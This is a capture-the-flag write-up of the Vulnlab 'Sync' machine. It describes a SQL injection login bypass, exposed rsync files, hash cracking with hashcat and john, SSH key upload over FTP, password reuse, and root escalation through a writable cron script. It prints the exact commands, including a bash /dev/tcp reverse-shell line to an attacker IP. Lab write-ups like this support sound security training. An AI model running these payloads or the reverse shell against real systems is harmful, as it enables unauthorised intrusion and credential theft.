




Sync Write-up
This Vulnlab box starts by exploiting an old protocol, rsync, which exposed a directory we could download. Inside, we discovered a user’s hashed password along with the method used to generate it. Using this information, we successfully cracked the hash and obtained valid credentials.
With these credentials, we logged into an FTP server, which provided access to the user’s home directory. Notably, the user had read, write, and modify permissions, allowing us to create an SSH directory and upload our own public SSH key. This enabled us to log in as the user via SSH.
Upon enumeration, we found two additional user accounts on the system. One of these users had reused the same password, allowing us to escalate access to the second account. we discovered multiple backup zip files, which we transferred to our local machine. Extracting the contents revealed both the shadow and passwd files, allowing us to crack additional password hashes using John the Ripper.
With access to the final user, we identified a root-owned script that executed every minute or two. Since we had write permissions to this script, we modified it to include a reverse shell, successfully gaining root access and fully compromising the machine.
Enumeration
Nmap Scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 20:29 PST
Nmap scan report for 10.10.64.141
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 c7:2d:7d:88:89:83:57:48:62:1e:6d:f4:e0:da:e5:96 (ECDSA)
|_ 256 22:e0:79:8a:31:1f:9d:fd:bc:2c:39:52:78:41:df:83 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-title: Login
873/tcp open rsync (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.01 seconds
There are three ports open. Viewing port 80 shows us an login page.
Port 80
This is vulnerable to SQLi which we can bypass the login propt and log in as admin.
admin' or '1'='1
There was not much for us here so moving onto rsync
Rsync port 873
Rsync is utility for efficiently transferring and synchronizing files between a computer and a storage drive and across networked computers by comparing the modification times and sizes of files. A default port is 873.
We can view if there is any folders available for us to view.
rsync -av --list-only rsync://10.10.88.10
This shows there is a folder that we can view. Now lets mount the folder onto our machine.
# First make a directory to mount the folder to
mkdir httpd
# mount the folder to the specifiec directory
rsync -av rsync://10.10.88.10:873/httpd httpd
Inside the db shows a sql file which we can open with sqlitebrowser.
It shows us the username and their password hashes. Trying to crack with hashcat failed for both hashes. Viewing the www directory and outputting the contexts of index.php will show us how the hash is created. I will walk through this.
$secure– This acts as thesaltin the hashing process.$hash– The final hash is generated usingMD5, which takes the combination of:md5($secure . $username . "|" . $password . "|")- Here,
|(pipe character) is explicitly included in the hashing process.
Understanding the Hash Format:
With this understanding, the stored hash follows the format: hash:salt|username|
hash= The final MD5 output.salt= The$securevalue.username= The username (which is also concatenated as part of the hashing process).
The reason we include the pipe (`|`) is because it was also part of the input string being hashed in md5(). This ensures that when cracking the hash with Hashcat, the format is correct.
This is the format that hashcat also needs. With that being said we have the correct hash format for hashcat to crack
hashcat -m 20 -a 0 hash ../SecLists/Passwords/Leaked-Databases/rockyou.txt
That will crack the hash for triss. I was unable to log into ssh as triss however I was able to log into ftp as triss.
User as triss
Logging in as triss shows this is most likely triss home directory
We can modify and create directories and upload files to this directory. We can upload a ssh key and log in as triss. First make a .ssh directory
On our machine we will create a ssh key.
Now lets make a file called authorized_keys on our machine.
touch authorized_keys
Then cat out the public key and echo into the authorized_keys file
cat id_rsa.pub
echo "from id_rsa.pub output" > authorized_keys
Now on ftp cd into .ssh and upload authorized_keys
put authorized_keys

Now we can ssh as triss
User As Jennifer
In the /home directory there are two other users, jennifer and sa. We can try to do password re-use on the new users we found which Jennifer was using the same password as triss.
Running linpeas shows there is a directory we can access that is owned by root.
User As SA
There is a-lot of zip files that seems like its a backup of a sort. we can transfer all the files onto our machine.
Viewing the output we will download the latest backup zip file which is 1738125721.zip. Unzipping the file shows us the /etc/passwd and /etc/shadow files which we can try to crack the hashes.
unshadow tmp/backup/passwd tmp/backup/shadow > unshadow.txt
then use john to crack the hashes.
john --format=crypt --wordlist=/home/pixelrazer/SecLists/Passwords/Leaked-Databases/rockyou.txt unshadow.txt
We are able to crack sa password. Lets login as sa.
Privilege Escalation
Viewing linpeas will show the user sa owns a script
Viewing the contents shows us its backup files as shown in the /backup directory. We can assume root user is running the script since its backing up the /etc/shadow file which the sa user does not have the permissions and we can also use pspy to view its being executed.
editing the file we can add a reverse shell.
0<&196;exec 196<>/dev/tcp/10.8.5.55/4444; sh <&196 >&196 2>&196
Conclusion
In conclusion, the "Sync" challenge demonstrates how a series of misconfigurations—from an exposed rsync service and weak password hashing to SQL injection and insecure file permissions—can be chained together to fully compromise a system. This case underscores the importance of using up-to-date protocols, enforcing strong authentication, and maintaining strict control over critical scripts to prevent such cascading vulnerabilities.